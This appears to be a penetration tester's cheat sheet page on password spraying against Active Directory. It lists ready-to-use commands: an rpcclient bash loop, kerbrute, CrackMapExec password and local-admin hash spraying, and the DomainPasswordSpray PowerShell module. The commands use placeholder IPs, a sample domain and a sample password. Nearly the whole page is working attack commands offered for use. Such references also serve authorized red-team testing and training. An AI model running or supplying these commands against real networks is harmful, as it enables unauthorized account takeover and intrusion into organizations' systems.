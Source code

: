 # Spraying

## <mark style="color:yellow;">LINUX</mark>

## <mark style="color:blue;">Internal Bash One-Liner Spray</mark>

```bash
for u in $(cat valid_users.txt);do rpcclient -U "$u%PASSWORD123" -c "getusername;quit" 13.13.13.13 | grep Authority; done
```

## <mark style="color:blue;">Kerbrute</mark>

```bash
kerbrute passwordspray -d militech.local --dc 13.13.13.13 valid_users.txt PASSWORD123
```

## <mark style="color:blue;">CrackMapExec</mark>

```bash
sudo crackmapexec smb 13.13.13.13 -u valid_users.txt -p PASSWORD123 | grep +
```

#### Local Admin Hash Spray

```bash
sudo crackmapexec smb --local-auth 13.13.13.13/23 -u administrator -H goi12h3084u20ij0d81t082310 | grep +
```

## <mark style="color:yellow;">WINDOWS</mark>

### <mark style="color:blue;">**DomainPasswordSpray.ps1**</mark>

[**\[LINK\]**](https://github.com/dafthack/DomainPasswordSpray)

```bash
PS C:\> Import-Module .\DomainPasswordSpray.ps1
PS C:\> Invoke-DomainPasswordSpray -Password PASSWORD123 -OutFile spray_success -ErrorAction SilentlyContinue
```
